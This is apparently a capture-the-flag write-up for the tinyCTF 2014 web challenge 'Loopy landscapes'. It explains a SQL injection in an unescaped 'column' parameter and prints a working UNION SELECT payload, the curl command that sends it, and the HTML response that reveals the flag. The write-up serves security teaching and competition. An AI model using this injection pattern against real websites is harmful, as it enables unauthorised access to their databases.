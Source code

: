 # tinyCTF 2014: What is Loopy landscapes?

**Category:** Web
**Points:** 200
**Description:**

> <http://54.69.118.120:8000/>

## Write-up

The `column` field on the website is vulnerable to SQL injection. It seems like the query being executed has the format:

```sql
SELECT name, park, country, height FROM rollercoaster WHERE $column LIKE %$value%;
```

…where `$column` is not escaped properly, but `$value` is.

After some manual fiddling, the final payload looks like this: `park = 0 AND 1=0 UNION ALL SELECT 1,hash,3,4 from flag#`.

```bash
$ curl --data "value=x&column=park%20%3D%200%20AND%201%3D0%20UNION%20ALL%20SELECT%201%2Chash%2C3%2C4%20from%20flag%23" 'http://54.69.118.120:8000/index.php'
<html>
    <head>
        <title>Archie's Roller Coaster Page</title>
        <link href='http://fonts.googleapis.com/css?family=EB+Garamond' rel='stylesheet' type='text/css'>
        <link rel="stylesheet" type="text/css" href="style.css"/>
    </head>
    <body>
        <div id="header">Archie's Coasters</div>
        <div id="search" class="whitebox">
            <form name="search" action="index.php" method="post">
                Search for
                <input name="value" type="text" placeholder="Search value"/>
                in
                <select name="column">
                    <option value="name">name</option>
                    <option value="park">park</option>
                    <option value="country">country</option>
                </select>
                <input type="submit" value="Go"/>
            </form>
        </div>
        <div id="content" class="whitebox">
            <table>
                <tr>
                    <th>
                        Name
                    </th>
                    <th>
                        Park
                    </th>
                    <th>
                        Country
                    </th>
                    <th>
                        Height
                    </th>

                </tr><tr><td>1</td><td>flag{unroll_those_loops}</td><td>3</td><td>4 m</td></tr></table>
        </div>
    </body>
</html>
```

The flag is `flag{unroll_those_loops}`.

## Other write-ups and resources

* <https://github.com/jesstess/tinyctf/blob/master/loopy/loopy.md>
